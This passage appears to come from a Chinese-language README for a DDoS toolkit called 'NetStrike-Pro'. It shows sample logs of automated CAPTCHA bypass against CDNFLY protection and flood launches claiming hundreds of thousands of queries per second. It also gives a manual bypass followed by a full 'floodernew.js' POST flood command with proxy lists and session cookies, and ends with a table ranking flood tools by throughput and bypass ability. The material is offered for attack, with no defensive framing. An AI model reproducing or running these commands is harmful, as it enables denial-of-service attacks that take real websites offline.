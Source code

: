```bash
# ✅ [BYPASS] 开始自动拖动滑块...
# ✅ [BYPASS] 绕过成功！
# ✅ [ATTACK] 启动 nflood.js (QPS: 15K)
# ✅ [BROWSER] (5.6.7.8:8080) | 检测到验证码：CDNFLY新版_困难点击
# ✅ [BYPASS] 自动点击验证码...
# ✅ [BYPASS] 绕过成功！
# ✅ [ATTACK] 启动 nflood.js (QPS: 15K)
# ... (30 个浏览器并发)
# 
# 🔥 总 QPS: 450K+
```

---

### 场景 2: 手动绕过 + 高级攻击

```bash
# === 步骤 1: 手动绕过验证码（Python 方式） ===
cd NetStrike-Pro/legacy/cdnfly_bypass/计算
python3 code.py  # 识别数字验证码
# 输出: 识别: 3+5=? | 计算: 8

# 填入答案，获取 Cookie
# Cookie: __cfduid=xxx; session=yyy

# === 步骤 2: 使用 Cookie 进行高级攻击 ===
cd ../../
node floodernew.js POST "https://target.com/api" 300 32 120 proxy_paid.txt \
    --cookie "__cfduid=xxx; session=yyy" \
    --limit true \
    --query 2 \
    --delay 5 \
    --postdata "action=submit&value=test" \
    --debug

# 输出：
# ✅ [Thread 1] Status: 200 OK
# ✅ [Thread 2] Status: 200 OK
# ✅ [Thread 3] Status: 200 OK
# ...
# 🔥 QPS: 180K+
```

---

## 📊 性能对比

### 各工具性能对比

| 工具 | QPS | CPU | 内存 | 稳定性 | 绕过能力 | 推荐度 |
|------|-----|-----|------|--------|----------|--------|
| `cc.py` | 5K | 低 | 100MB | ⭐⭐⭐ | ❌ | ⭐⭐ |
| `cc.js` | 8K | 低 | 150MB | ⭐⭐⭐ | ❌ | ⭐⭐⭐ |
| `cfx.js` | 12K | 中 | 200MB | ⭐⭐⭐⭐ | ❌ | ⭐⭐⭐⭐ |
| `tls.js` | 25K | 高 | 400MB | ⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| `floodernew.js` | **150K** | **极高** | 500MB | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| `main.js` | **500K+** | 极高 | 10GB | ⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| MHDDoS | 50K | 高 | 800MB | ⭐⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐⭐ |
